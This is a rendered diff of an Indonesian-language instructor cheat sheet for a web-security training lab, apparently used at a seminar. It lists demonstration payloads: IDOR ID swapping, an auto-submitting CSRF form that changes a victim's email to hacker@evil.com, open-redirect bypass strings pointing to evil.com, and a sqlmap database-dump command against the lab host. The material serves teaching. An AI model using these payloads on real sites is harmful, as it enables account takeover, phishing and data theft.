

Before and after one commit to gegege357/act-lab, a Markdown page: CHEAT.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/CHEAT.md
+++ b/CHEAT.md
@@ -59,50 +66,47 @@ Buku panduan ini berisi **Payload Langsung** untuk demonstrasi eksploitasi cepat
 
 ---
 
-## 5. IDOR :: PROFILE MANIPULATION
-**Target:** Profile Viewer (`/lab/idor`)
+## 5. IDOR :: INSECURE OBJECT REFERENCE
+**Target:** Profile Page (`/lab/idor`)
+**Tujuan:** Melihat data rahasia Admin.
 
-### ⚡ Direct Payload (Copy-Paste)
-*   Ubah User ID di input menjadi: `1` atau `2`
-
-### 🛠️ Manual Step-by-Step
-1. Login sebagai user biasa (cek ID Anda sendiri, misal 999).
-2. Tunjukkan bahwa dengan hanya mengubah angka ID di input, kita bisa melihat biodata dan email **ADMIN** atau user lain tanpa proteksi.
-3. Jelaskan ini terjadi karena server tidak mengecek apakah user yang merequest punya hak akses ke data tersebut.
+### ⚡ Eksploitasi Cepat
+1.  Buka profil Anda sendiri, lihat di input ID (misal: `999`).
+2.  Ganti ID secara manual menjadi `1`.
+3.  **Hasil:** Profil Admin dan Flag IDOR akan muncul di Bio.
 
 ---
 
-## 6. OPEN REDIRECT :: PHISHING GATEWAY
-**Target:** Navigation Gateway (`/lab/redirect`)
+## 6. CSRF (CROSS-SITE REQUEST FORGERY)
+**Target:** Profile Settings (`/lab/csrf`)
+**Tujuan:** Mengganti email korban tanpa mereka sadari.
 
-### ⚡ Direct Payload (Copy-Paste URL)
-*   `?url=https://google.com`
-*   `?url=//evil-phishing.com`
-
-### 🛠️ Manual Step-by-Step
-1. Tunjukkan link yang tampak resmi dari domain kita.
-2. Begitu diklik, user malah terlempar ke situs luar.
-3. Jelaskan ini sering dipakai attacker untuk membuat link phishing yang terlihat terpercaya.
+### ⚡ Payload Exploit (Simulasi HTML)
+Bapak bisa jelaskan bahwa attacker membuat file `attack.html` berisi kode ini:
+```html
+<form action="http://act-lab.app/api/profile" method="POST">
+  <input type="hidden" name="email" value="hacker@evil.com" />
+  <input type="hidden" name="bio" value="PWNED BY CSRF" />
+</form>
+<script>document.forms[0].submit();</script>
+```
 
 ---
 
-## 7. CSRF (CROSS-SITE REQUEST FORGERY)
-**Target:** Account Settings (`/lab/csrf`)
+## 7. OPEN REDIRECT :: PHISHING GATEWAY
+**Target:** Navigation Redirect (`/lab/redirect`)
+**Tujuan:** Mengirim user ke situs berbahaya.
 
-### ⚡ Direct Payload (Exploit Concept)
-*   `api/profile` (POST Request) dengan payload: `{"email": "hacker@evil.com"}`
-
-### 🛠️ Manual Step-by-Step (Burp Suite)
-1. Buka Burp Suite Intercept.
-2. Ubah email di halaman profil, lalu klik "Update".
-3. Tunjukkan di Burp bahwa request ini tidak punya "Anti-CSRF Token".
-4. Jelaskan attacker bisa menjebak user mengklik link jahat yang diam-diam mengganti email mereka.
+### ⚡ Payload Bypass
+*   **Simple:** `?url=https://google.com`
+*   **Protocol Relative:** `?url=//bing.com`
+*   **Double Slash:** `?url=////evil.com`
 
 ---
 
-**ACT LAB :: SEMINAR CYBER SECURITY TOOLS**
-*   **Burp Suite:** Intercept & Manipulasi Parameter.
-*   **SQLmap:** Otomasi Dumping Database.
-*   **Developer Tools (F12):** Analisis DOM & Network Request.
+## 🛰️ TOOLBOX INSTRUKTUR
+*   **Burp Suite:** Gunakan untuk menunjukkan "Raw HTTP Request" (sangat disukai audiens pro).
+*   **SQLmap:** Tunjukkan cara otomatisasi SQLi Union.
+    *   Command: `sqlmap -u "http://act-lab.app/api/search?q=test" --batch --dump`
 
 **ACT LAB :: EMPOWERING CYBER SECURITY**
````
Also changed, not shown: other parts of CHEAT.md (+46 -39 lines).
